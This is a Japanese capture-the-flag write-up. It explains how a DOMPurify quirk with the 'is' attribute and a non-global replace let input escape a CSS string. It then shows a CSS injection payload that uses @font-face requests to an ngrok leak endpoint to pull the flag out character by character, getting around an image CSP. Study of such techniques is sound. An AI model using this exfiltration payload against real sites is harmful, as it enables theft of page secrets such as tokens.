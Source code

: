 `sanitized`に`"`が含まれている場合、文字列から脱出できることがわかる。しかも、二回目の`.replace(/["'&]/,'')`では`g`フラグが無いため、`"`は一度しか削除されず、２つ目以降の`"`が削除されない。ただし、DOMPurifyに入力される前に`"`がすべて削除されてしまう上に、すべてのアトリビュートが禁止されているため、`DOMPurify.sanitize`の結果に`"`が２つ以上含まれるようにするのが難しい。

[DOMPurifyのソースコード](https://github.com/cure53/DOMPurify/blob/0d64d2b12f9ecaa28899c60aba0b9ed5072c4d93/src/purify.ts#L862)を読んでいると、`is`というアトリビュートは、`element.removeAttribute`で除去することができない(参考: [Stackoverflow](https://stackoverflow.com/questions/75721059/why-remove-attribute-api-not-working-for-is-attribute-alone))ので、変わりに

```javascript
element.setAttribute(name, '');
```
が実行される。
したがって、

```
<a is=x>}[id=flag]{background: red}
```
を送ると、DOMPurifyの実行結果は

```html
<a is="">}[id=flag]{background: red}</a>
```
となる。１つ目の`"`が取り除かれた上で`<style>`タグに埋め込まれると、

```html
<style nonce="...">#sanitized:before { /* snap */ content: "<a is=">}[id=flag]{background: red}</a>" }</style>
```

となり、無事`"`から脱出してCSSインジェクションが可能となる。

これを利用して`#flag`のフォームの中を特定する方法を考える([参考](https://www.mbsd.jp/research/20230403/css-injection/))。まず`[id=flag][value^=x3]`というセレクタは、`#flag`の中身がx3で始まる場合はフォームにマッチし、始まらない場合はマッチしないことを利用する。通常は`background-image`などを利用してリークすることが多いが、今回はCSPにより`image-src`が制限されているため利用できない。したがって、`font-family`を利用する。例えば、CSSが

```CSS
@font-face {
  font-family: x3;
  src: url(https://xxx.ngrok.app/leak?v=x3)
}
[id=flag][value^=x3] {
  font-family: x3
}
```

である場合、`[id=flag][value^=x3]`にマッチする要素がある場合のみ`@font-face`に登録されたフォントに問い合わせが送られる。これを利用して、フラグの文字列の一部が存在するかどうかを判別することができる。

また、`[value^=x3]`のような形でフラグを一文字ずつリークさせたいが、今回は`"`や`\`が利用できないので、`[value^=x3c{]`のセレクタが無効になってしまう。したがって、フラグの一文字目から順番にマッチさせるような手法は取れない。

そこで、`[value*=abc]`は`abc`がフラグのいずれかの場所に存在する場合にマッチすることを利用して次のようなステップで特定する。(この問題のフラグは`^x3c{[a-z0-9_]+}$`を満たす68文字であることに注意)
1. aからzに対して`[value*=a]`のようなセレクタを利用することで、その文字がフラグに含まれるかチェックする。(このとき、数字に関しては`[value*=1]`のように数字から始まる形式のセレクタは無効であるためチェックできない)
2. フラグの`{}`の中身はこの英字から始まると仮定する。
3. その文字から一文字ずつリークし、63文字に達するパターンがあるかどうかをチェックする。
